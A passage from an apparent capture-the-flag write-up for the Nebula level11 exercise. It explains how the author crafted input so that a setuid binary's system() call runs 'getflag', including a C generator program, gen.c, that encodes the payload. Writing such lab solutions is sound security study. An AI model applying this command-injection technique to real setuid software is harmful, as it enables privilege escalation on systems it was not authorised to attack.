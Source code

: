 Failed. Since each time the output command are different (but the first char *g* is correct),
it must be that *buf* actually do not have a string terminator '\0', 
so I tried a few times and finally

``` bash
level11@nebula:~$ ../flag11/flag11 < ls.txt
getflag is executing on a non-flag account, this doesn't count
```

Well...here is the **problem**, the *system()* call would not drop privilege on my system...

I read the [manpage](http://linux.die.net/man/3/system) of *system()* carefully, it mentioned that

> Do not use system() from a program with set-user-ID or set-group-ID privileges, because strange values for some environment variables might be used to subvert system integrity. Use the exec(3) family of functions instead, but not execlp(3) or execvp(3). system() will not, in fact, work properly from programs with set-user-ID or set-group-ID privileges on systems on which /bin/sh is bash version 2, since bash 2 drops privileges on startup. (Debian uses a modified bash which does not do this when invoked as sh.)

I also did some google and find [this](http://www.cplusplus.com/forum/articles/11153/) thread on cplusplus 
and [this](http://stackoverflow.com/questions/16258830/does-system-syscall-drop-privileges) 
question on Stackoverflow ot be useful. It is said that *system()* itself would not drop privileges, 
but Bash 2 would, and my bash is version 4, so I think this meybe the reason.

I came across an interesting solution for this routine by [Reno Robert](http://v0ids3curity.blogspot.com/2012/12/exploit-exercise-level-11.html), who leveraged *LD_PRELOAD* to initialize the buffer.

#### Way Two

Anyway, before I realized this problem, I did do something through the second way, 
to get what the input should be from the output command, I wrote another program *gen.c*:

``` c gen.c
void process(char *buffer, int length)
{
        unsigned int key;
        int i;

        key = length & 0xff;

        for(i = 0; i < length; i++) {
                buffer[i] ^= key;
                key -= (key ^ buffer[i]);
        }
        //system(buffer);
}

main() {
  char* cmd = "getflag";
  char buf[1024];
  int len = strlen(cmd);
  memset((void *)buf, 0, 1024>>2);
  strncpy(buf, cmd, len+1);

  process(buf, 1024);
  printf("Content-Length: 1024\n");
  fwrite(buf, 1024, 1, stdout);
}
```
